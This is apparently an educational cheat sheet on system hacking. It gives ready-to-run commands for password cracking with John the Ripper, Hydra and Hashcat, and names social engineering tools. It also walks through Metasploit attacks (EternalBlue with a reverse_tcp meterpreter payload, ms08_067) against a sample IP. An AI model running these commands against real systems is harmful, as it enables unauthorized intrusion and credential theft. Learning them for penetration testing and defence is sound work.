 ## System Hacking Techniques

### **What is System Hacking?**  
System hacking involves gaining unauthorized access to a system and escalating privileges to control it. Techniques vary from cracking passwords to social engineering.

### **1. Password Cracking**  
- **Definition**: Password cracking is the process of recovering passwords through various techniques.  

**Techniques**:  
1. **Brute-Force Attack**: Trying all possible combinations.  
2. **Dictionary Attack**: Using a list of common passwords.  
3. **Rainbow Tables**: Precomputed hash lookup tables.  

**Tools for Password Cracking**:  

1. **John the Ripper**  
   - **Why**: Fast and flexible password cracking tool.  
   - **Command**:  
     ```bash
     john --wordlist=/path/to/wordlist.txt hashfile
     ```  

2. **Hydra**  
   - **Why**: Brute-force tool for various network protocols (SSH, FTP, HTTP, etc.).  
   - **Command**:  
     ```bash
     hydra -l admin -P rockyou.txt ssh://192.168.1.10
     ```  

3. **Hashcat**  
   - **Why**: GPU-accelerated password cracker.  
   - **Command**:  
     ```bash
     hashcat -a 0 -m 1000 hash.txt wordlist.txt
     ```  
4. **Rainbow Tables**:  
   - Use precomputed hashes to reverse engineer passwords.
   - **Tools**: **Ophcrack**, **Cain and Abel**.

### **2. Social Engineering**  
- **Definition**: Manipulating people into divulging confidential information.  
- **Types**:  
   - Phishing : Crafting fake emails or websites to capture sensitive data.
   - Pretexting : Pretending to be someone trustworthy to acquire information.
   - Baiting : This tactic tricks the victim into unintentionally downloading malware into their system or revealing confidential personal or organizational information.

**Tools for Social Engineering**:  
1. **SET (Social Engineering Toolkit)**  
   - Simulates phishing attacks and payload delivery.  
   - **Command**:  
     ```bash
     setoolkit
     ```  

2. **GoPhish**  
   - Open-source phishing framework to test awareness.  

### **3. Metasploit Framework**  
- **Definition**: Metasploit is a powerful penetration testing framework for system exploitation.  

**Why Metasploit?**  
- Automated exploits.  
- Post-exploitation features.  

**Key Features**:
- Exploit Module: **Search for and exploit vulnerabilities**.
- Payload: **Deliver commands or backdoors**.
  
**Example Attack using Metasploit**:  
1. **Finding an Exploit**:  
   ```bash
   search type:exploit name:windows
   ```
   
2. **Exploit Target**:  
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```

3. **Set Payload**:
   ```bash
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   ```

4. **Launch Attack**:  
   ```bash
   exploit
   ```

**Basic Usage**:  
1. **Launch Metasploit**:  
   ```bash
   msfconsole
   ```  

2. **Search for Exploits**:  
   ```bash
   search windows/smb
   ```  

3. **Use Exploit**:  
   ```bash
   use exploit/windows/smb/ms08_067_netapi
   set RHOST 192.168.1.10
   exploit
   ```  
